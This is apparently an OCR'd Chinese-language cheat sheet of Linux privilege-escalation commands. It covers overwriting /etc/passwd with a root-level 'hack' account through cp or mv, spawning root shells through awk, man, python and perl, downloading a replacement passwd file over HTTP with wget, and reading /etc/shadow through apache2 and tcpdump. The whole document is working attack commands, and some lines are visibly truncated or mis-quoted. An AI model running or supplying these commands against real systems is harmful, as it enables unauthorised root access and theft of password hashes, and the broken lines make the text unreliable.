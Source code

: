 **cp**<br />覆盖 /etc/shadow 或 /etc/passwd
```
cat /etc/passwd >passwd
openssl passwd -1 -salt hack hack123
echo \'hack:\$1\$hack\$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
cp passwd /etc/passwd
su - hack
id
```

**mv**<br />覆盖 /etc/shadow 或 /etc/passwd
```
cat /etc/passwd \>passwd
openssl passwd -1 -salt hack hack123
echo \'hack:\$1\$hack\$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:
mv passwd /etc/passwd
su - hack
id
```

**nano**
```
nano /etc/passwd
```

**awk**
```
awk 'BEGIN {system("/bin/sh")}'
```

**man**
```
man passwd
!/bin/bash
```

**wget**
```
wget http://192.168.56.1:8080/passwd -O /etc/passwd
```

**apache**
```
apache2 -f /etc/shadow
```

**tcpdump**
```
echo \$\'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

**python/perl/ruby/lua/php/etc**<br />python
```
python -c "import os;os.system('/bin/bash')"
```

**perl**
```
exec "/bin/bash";
```
